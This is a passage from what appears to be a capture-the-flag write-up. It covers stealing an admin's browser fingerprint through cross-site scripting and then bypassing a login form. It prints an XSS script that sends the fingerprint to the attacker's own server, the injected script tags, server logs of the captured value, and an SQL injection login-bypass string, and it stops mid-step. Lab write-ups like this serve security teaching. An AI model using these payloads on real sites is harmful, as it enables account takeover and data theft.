 
This cookie from the XSS is not that, but something different. I can’t explain
it right now, but it will be valuable later.

#### Get Fingerprint

What I really need is the admin’s browser fingerprint. I’ll write an XSS
payload to capture that. I’ll have the page include the `login.js` JavaScript
that calculates the fingerprints. Knowing I have access to that, I’ll update
`xss.js` to:

    
    
    var req = new XMLHttpRequest();
    req.open("GET", "http://10.10.14.6/?" + getFingerPrintID(), false)
    req.send();
    

I’ll log in with two blocks: `<script
src="http://10.10.11.127:8080/resources/js/login.js"></script><script
src="http://10.10.14.6/xss.js"></script>`.

    
    
    <script src="http://10.129.9:8080/resources/js/login.js"></script><script src="http://10.10.14.6/xss.js"></script>
    

One the next check, I get what looks like a fingerprint:

    
    
    10.10.11.127 - - [05/Dec/2021 09:02:55] "GET /xss.js HTTP/1.1" 200 -
    10.10.11.127 - - [05/Dec/2021 09:02:55] "GET /?962f4a03aa7ebc0515734cf398b0ccd6 HTTP/1.1" 200 -
    

I can confirm my guess above about the fingerprints being hashed before they
are stored in the DB:

    
    
    oxdf@hacky$ echo -n "962f4a03aa7ebc0515734cf398b0ccd6" | sha256sum 
    7ef52c251f8044cb187013992891d0e58ce9194de7f535b1b4fa6bbfe08678f6  -
    

### Login

#### Get Cookie

Earlier I was able to bypass the username and potentially the password part of
the auth, but failed when it checked the fingerprint. I’ll add this correct
fingerprint to the query and see what comes back. When I use the username
admin, I still get invalid fingerprint:

    
    
    uid=' or username='admin' and ''='&auth_primary=password&auth_secondary=962f4a03aa7ebc0515734cf398b0ccd6
    

However, when I change to micheal1235, it works:

    
    